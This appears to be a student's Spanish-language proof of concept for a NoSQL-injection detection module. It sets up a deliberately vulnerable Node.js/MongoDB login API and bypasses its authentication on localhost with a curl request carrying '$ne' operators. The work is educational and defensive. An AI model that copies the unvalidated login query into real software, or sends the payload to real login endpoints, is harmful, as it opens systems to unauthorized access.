Para fines de demostración técnica y validación del módulo, se detalla el procedimiento para desplegar una API REST vulnerable (entorno de pruebas aislado) y ejecutar una inyección de Categoría A (Bypass de Autenticación).

### 1. Despliegue del Entorno Vulnerable
Inicialización del proyecto e instalación de dependencias en un entorno Node.js:
```bash
mkdir poc-nosqli && cd poc-nosqli
npm init -y
npm install express mongoose
```

**Código del Servidor (`server.js`):**

```javascript
const express = require('express');
const mongoose = require('mongoose');

const app = express();
app.use(express.json()); 

// Conexión a instancia local de MongoDB
mongoose.connect('mongodb://127.0.0.1:27017/tesis_epn');
const User = mongoose.model('User', { username: String, password: String });

// Endpoint vulnerable: Evaluación directa del payload JSON sin validación estricta de tipos de datos
app.post('/api/login', async (req, res) => {
    try {
        const user = await User.findOne({ username: req.body.username, password: req.body.password });
        
        if (user) {
            res.json({ success: true, token: "JWT_ACCESO_ADMIN", msg: "Bypass Exitoso" });
        } else {
            res.status(401).json({ success: false, msg: "Credenciales inválidas" });
        }
    } catch (error) {
        res.status(500).json({ error: "Error en el servidor" });
    }
});

app.listen(3000, async () => {
    console.log('API Vulnerable corriendo en http://localhost:3000');
    // Generación de usuario administrador de prueba
    await User.deleteMany({});
    await User.create({ username: "admin", password: "password_super_secreta" });
});
```

### 2. Ejecución de la Explotación (Payload BSON)

Con el servidor en ejecución, se envía una petición HTTP inyectando el operador lógico BSON de desigualdad (`$ne`) en el cuerpo de la solicitud:

```bash
curl -X POST http://localhost:3000/api/login \
-H "Content-Type: application/json" \
-d '{"username": {"$ne": null}, "password": {"$ne": null}}'
```

* **Resultado:** La vulnerabilidad *schemeless* permite que el motor evalúe la condición como verdadera al omitir la comprobación de tipos, autorizando el acceso y retornando el token de autenticación sin requerir las credenciales correctas.

---

## Evidencias y Pruebas del Prototipo

### 1. Inicialización del Servidor y Base de Datos

*Despliegue de la API REST vulnerable sobre Node.js y conexión al motor MongoDB local.*

### 2. Ejecución y Explotación del Bypass BSON

*Respuesta del servidor mostrando el éxito de la inyección NoSQL (Bypass de Autenticación y retorno del token).*
</details>

---

## Información del Autor y Componente

* **Estudiante:** Juan Diego Suárez Barberán
* **Componente Asignado:** Módulo de Detección de NoSQL Injection
* **Carrera:** Ingeniería de Software
* **Institución:** Escuela Politécnica Nacional (EPN)
